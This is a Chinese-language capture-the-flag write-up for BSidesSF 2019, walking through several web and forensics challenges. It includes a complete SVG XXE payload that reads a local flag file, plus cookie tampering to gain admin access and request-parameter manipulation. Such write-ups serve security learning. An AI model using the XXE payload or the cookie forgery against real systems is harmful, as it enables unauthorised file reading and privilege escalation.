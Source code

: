# BSidesSF 2019 CTF WriteUp

[TOC]

## WEB-Pick Tac Toe

看源码，3*3格子表示如下：

| Ul   | u    | Ur   |
| ---- | ---- | ---- |
| l    | c    | r    |
| Bl   | b    | br   |

![Screen Shot 2019-03-05 at 10.27.23 PM](https://ws4.sinaimg.cn/large/006tKfTcgy1g0safy9d9mj30m002q751.jpg)

事实证明机器下过的位置可以覆盖

**Hackbar**

![Screen Shot 2019-03-05 at 10.29.20 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0safx8drzj31620em0tr.jpg)

或

**Console**

![Screen Shot 2019-03-05 at 10.30.23 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sagwhg8uj30c206ymxg.jpg)

快点儿鼠标点击也行，服务器反应不过来

![Screen Shot 2019-03-05 at 11.37.33 AM](/Users/kevinluo/Desktop/Screen Shot 2019-03-05 at 11.37.33 AM.png)

flag：**CTF{i_beat_the_impossible}**

总结：post请求action参数在网址后添加,post的方式：burp、firefox hackbar、console（:""代替=）



## WEB-svgmagic

> https://ctftime.org/writeup/12064

svg文件写成这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY  data SYSTEM
  'file:./flag.txt'> ]>
<svg
   xmlns="http://www.w3.org/2000/svg"
   width="200mm"
   height="10mm">
   <text x="10" y="15" fill="red">//回显一下，将flag.txt转换以图片形式回显
      &data;
   </text>
</svg>
```

![Screen Shot 2019-03-05 at 11.51.58 AM](https://ws3.sinaimg.cn/large/006tKfTcgy1g0rs0u7ocwj308p01wq2r.jpg)

flag：**CTF{haha_no_imagemagick_sorry}**

## WEB-kookie

`We found the account cookie / monster`

Username:cookie

Password:monster

登录

![Screen Shot 2019-03-05 at 11.10.15 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbmaoxy0j30h80amt97.jpg)

![Screen Shot 2019-03-05 at 11.11.02 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbn6g3pxj31a60g0q5d.jpg)

因为要`Log in as admin!`，故![Screen Shot 2019-03-05 at 11.11.49 PM](https://ws3.sinaimg.cn/large/006tKfTcgy1g0sbnyh31ij30z202gglo.jpg)

改一下cookie。刷新页面，![Screen Shot 2019-03-05 at 11.12.24 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbojueyfj31c602mgm3.jpg)

flag：**CTF{kookie_cookies}**



## WEB-futurella

签到水题。

![Screen Shot 2019-03-05 at 11.14.58 PM](https://ws1.sinaimg.cn/large/006tKfTcgy1g0sbra5vjrj30q402w3z7.jpg)



## Forensics-table-tennis

ICMP有点意思

![Screen Shot 2019-03-05 at 11.17.07 PM](https://ws4.sinaimg.cn/large/006tKfTcly1g0sbtlcqqzj308g036t8r.jpg)

有script。

...write(atob("Q1RGe0p1c3RBUzBuZ0FiMHV0UDFuZ1Awbmd9<"));...

base64解密函数		

> btoa和atob是window对象的两个函数，其中btoa是binary to ascii，用于将binary的数据用ascii码表示，即Base64的编码过程，而atob则是ascii to binary，用于将ascii码解析成binary数据，看一个例子：
>
> ```
> // Define the string
> var string = 'Hello World!';
> 
> // Encode the String
> var encodedString = btoa(string);
> console.log(encodedString); // Outputs: "SGVsbG8gV29ybGQh"
> 
> // Decode the String
> var decodedString = atob(encodedString);
> console.log(decodedString); // Outputs: "Hello World!"
> ```

console中输入：

`atob("Q1RGe0p1c3RBUzBuZ0FiMHV0UDFuZ1Awbmd9")`

得到`"CTF{JustAS0ngAb0utP1ngP0ng}"`



## Forensics-Zippy

wireshark载入，看数据，有`flag.zip`字样，里面套个`flag.txt`。还发现

`unzip -P supercomplexpassword flag.zip`

看来是解压密码。

直接十六进制打开，找504B0304（zip文件头），把文件头前面的Hex都删掉，另存为zip。输入解压密码，拿到flag：**CTF{this_flag_is_your_flag}**

